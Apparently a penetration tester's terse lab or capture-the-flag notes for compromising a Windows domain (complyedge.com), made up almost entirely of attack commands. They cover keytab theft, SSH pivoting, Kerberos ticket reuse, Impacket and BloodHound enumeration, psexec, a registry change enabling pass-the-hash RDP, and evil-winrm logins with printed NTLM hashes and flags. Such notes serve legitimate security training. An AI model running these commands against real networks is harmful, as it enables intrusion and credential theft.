

Flags : 1891c271e40a292f1fbd5eaffbc0a7f8
kdc = dmzdc01.complyedge.com
default_domain = complyedge.com
cat /etc/krb5.keytab
# comment out proxy_dns in sshuttle
Lateral movement
# persistence via root
## sshuttle (comment out proxy_dns in proxychains.conf)
sudo sshuttle -v -e "ssh -i id_rsa_root" -r root@"$target1" 172.16.161.0/24 ## failed
### alternative proxychains
ssh -i id_rsa_root root@$target1 -D 1080
## list processes
ps aux
ssh of pete user
### find /tmp/krb5cc_75401103_wWm0AW
## enumeration
cat /etc/krb5.conf
## dmzdc01.complyedge.com .168
## AD
export KRB5CCNAME="/tmp/krb5cc_75401103_wWm0AW"
### enumerate users (sshuttle)
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip dmzdc01.complyedge.com complyedge.com/pete
## enumerae spns
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip dmzdc01.complyedge.com complyedge.com/pete
bloodhound-python -u 'WEB05$' --hashes aad3b435b51404eeaad3b435b51404ee:e269dd0a1821f1b6cc4c023eb5ee0072 -d complyedge.com -ns 172.16.175.168 --dns-tcp -c All
## note use ip in -ns and complyedge.com in hosts
DC01
psexec.py -k $dc
## flag
fad50534dfbf83af12c9ba30daef6b8a
## remove account restriction for pth
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
## rdp to dc
xfreerdp /u:pete@complyedge.com /pth:61c6e14f88cd70638f901ea51796a194 /v:dmzdc01.complyedge.com +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore

sid filtering is off so we can't ue golden ticket attack however we can enumerate
evil-winrm -u complyedge.com\\jim -H e48c13cefd8f9456d79cd49651c134e8 -i file06.ops.comply.com
(admin)